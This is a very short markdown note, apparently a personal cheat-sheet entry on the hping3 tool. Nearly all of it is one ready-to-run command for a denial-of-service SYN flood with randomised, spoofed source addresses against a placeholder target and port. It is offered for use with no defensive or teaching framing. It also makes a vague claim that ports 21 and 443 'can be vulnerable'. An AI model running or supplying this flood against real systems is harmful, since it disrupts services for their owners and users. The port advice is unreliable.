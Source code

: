 ```yaml
---
layout: default
title: "|--Hping3"
date: 2025-07-02 
tags: [networking]
---
```


- DoS using *hping3* with random source IP

- `hping3 -c 10000 -d 120 -S -w 64 -p &lt;Port&gt; --flood --rand-source &lt;Target&gt;`

- YOU CAN TARGET PORT *21* and *443* because that can be vulnerable

---

